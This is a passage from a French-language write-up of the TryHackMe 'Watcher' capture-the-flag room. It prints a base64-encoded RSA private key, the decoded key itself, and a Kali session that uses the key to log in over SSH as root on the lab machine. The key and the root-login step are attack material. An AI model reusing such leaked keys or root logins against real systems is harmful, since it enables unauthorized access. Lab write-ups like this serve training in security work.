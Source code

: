 ```key.b64
dlJmUXZGSnl6Z2Njd0V4RXI2Z2xKS09qNjRiTUNnWUVBbHhteC9qeEtaTFRXenh4YjlWNEQKU1Bz
K055SmVKTXFNSFZMNFZUR2gydm5GdVR1cTJjSUM0bTUzem4reEo3ZXpwYjFyQTg1SnREMmduajZu
U3I5UQpBL0hiakp1Wkt3aTh1ZWJxdWl6b3Q2dUZCenBvdVBTdVV6QThzOHhIVkk2ZWRWMUhDOGlw
NEptdE5QQVdIa0xaCmdMTFZPazBnejdkdkMzaEdjMTJCcnFjQ2dZQWhGamkzNGlMQ2kzTmMxbHN2
TDRqdlNXbkxlTVhuUWJ1NlArQmQKYktpUHd0SUcxWnE4UTRSbTZxcUM5Y25vOE5iQkF0aUQ2L1RD
WDFrejZpUHE4djZQUUViMmdpaWplWVNKQllVTwprSkVwRVpNRjMwOFZuNk42L1E4RFlhdkpWYyt0
bTRtV2NOMm1ZQnpVR1FIbWI1aUpqa0xFMmYvVHdZVGcyREIwCm1FR0RHd0tCZ1FDaCtVcG1UVFJ4
NEtLTnk2d0prd0d2MnVSZGo5cnRhMlg1cHpUcTJuRUFwa2UyVVlsUDVPTGgKLzZLSFRMUmhjcDlG
bUY5aUtXRHRFTVNROERDYW41Wk1KN09JWXAyUloxUnpDOUR1ZzNxa3R0a09LQWJjY0tuNQo0QVB4
STFEeFUrYTJ4WFhmMDJkc1FIMEg1QWhOQ2lUQkQ3STVZUnNNMWJPRXFqRmRaZ3Y2U0E9PQotLS0t
LUVORCBSU0EgUFJJVkFURSBLRVktLS0tLQo=
```
Qui donne la clé SSH :
```
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAzPaQFolQq8cHom9mssyPZ53aLzBcRyBw+rysJ3h0JCxnV+aG
opZdcQz01YOYdjYIaZEJmdcPVWQp/L0uc5u3igoiK1uiYMfw850N7t3OX/erdKF4
jqVu3iXN9doBmr3TuU9RJkVnDDuo8y4DtIuFCf92ZfEAJGUB2+vFON7q4KJsIxgA
nM8kj8NkFkFPk0d1HKH2+p7QP2HGZrf3DNFmQ7Tuja3zngbEVO7NXx3V3YOF9y1X
eFPrvtDQV7BYb6egklafs4m4XeUO/csM84I6nYHWzEJ5zpcSrpmkDHxC8yH9mIVt
dSelabW2fuLAi51UR/2wNqL13hvGglpePhKQgQIDAQABAoIBAHmgTryw22g0ATnI
9Z5geTC5oUGjZv7mJ2UDFP2PIwxcNS8aIwbUR7rQP3F8V7q+MZvDb3kU/4pil+/c
q3X7D50g*************************************6Z1wvASO0uEn7PIq2cz
BQvcRyQ5rh6sNrNiJQpGDJDE54hIigic/GucbynezYya8rrIsdWM/0SUl9JknI0Q
TQOi/X2wfyryJsm+tYcvY4ydhChK+0nVTheciUrV/wkFvODbGMSuuhcHRKTKc6B6
1wsUA85+vqNFrxzFY/tW188W00gy9w51bKSKDxboti2gdgmFolpnFw+t0QRB5RCF
AlQJ28kCgYEA6lrY2xyeLh/aOBu9+Sp3uJknIkObpIWCdLd1xXNtDMAz4OqbrLB5
fJ/iUcYjwOBHt3NNkuUm6qoEfp4Gou14yGzOiRkAe4HQJF9vxFWJ5mX+BHGI/vj2
Nv1sq7PaIKq4pkRBzR6M/ObD7yQe78NdlQvLnQTlWp4njhjQoHOsovsCgYEA3+TE
7QR77yQ8l1iGAFYRXIzBgp5eJ2AAvVpWJuINLK5lmQ/E1x2K98E73CpQsRDG0n+1
vp4+Y8J0IB/tGmCf7IPMeiX80YJW7Ltozr7+sfbAQZ1Ta2o1hCalAQyIk9p+EXpI
UbBVnyUC1XcvRfQvFJyzgccwExEr6glJKOj64bMCgYEAlxmx/jxKZLTWzxxb9V4D
SPs+NyJeJMqMHVL4VTGh2vnFuTuq2cIC4m53zn+xJ7ezpb1rA85JtD2gnj6nSr9Q
A/HbjJuZKwi8uebquizot6uFBzpouPSuUzA8s8xHVI6edV1HC8ip4JmtNPAWHkLZ
gLLVOk0gz7dvC3hGc12BrqcCgYAhFji34iLCi3Nc1lsvL4jvSWnLeMXnQbu6P+Bd
bKiPwtIG1Zq8Q4Rm6qqC9cno8NbBAtiD6/TCX1kz6iPq8v6PQEb2giijeYSJBYUO
kJEpEZMF308Vn6N6/Q8DYavJVc+tm4mWcN2mYBzUGQHmb5iJjkLE2f/TwYTg2DB0
mEGDGwKBgQCh+UpmTTRx4KKNy6wJkwGv2uRdj9rta2X5pzTq2nEApke2UYlP5OLh
/6KHTLRhcp9FmF9iKWDtEMSQ8DCan5ZMJ7OIYp2RZ1RzC9Dug3qkttkOKAbccKn5
4APxI1DxU+a2xXXf02dsQH0H5AhNCiTBD7I5YRsM1bOEqjFdZgv6SA==
-----END RSA PRIVATE KEY-----
```
On peux ensuite se connecté en SSH, et comme la config de SSH permet le login en tant que root, on peux donc directement se connecté en root avec la clé :
```
┌──(kali㉿kali)-[~/Challenge/TryHackMe/Watcher]
└─$ ssh -i id_rsa root@10.10.114.38
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-128-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Oct 25 13:48:47 UTC 2023

  System load:  0.08               Processes:             122
  Usage of /:   22.5% of 18.57GB   Users logged in:       0
  Memory usage: 46%                IP address for eth0:   10.10.114.38
  Swap usage:   0%                 IP address for lxdbr0: 10.14.179.1


33 packages can be updated.
0 updates are security updates.

```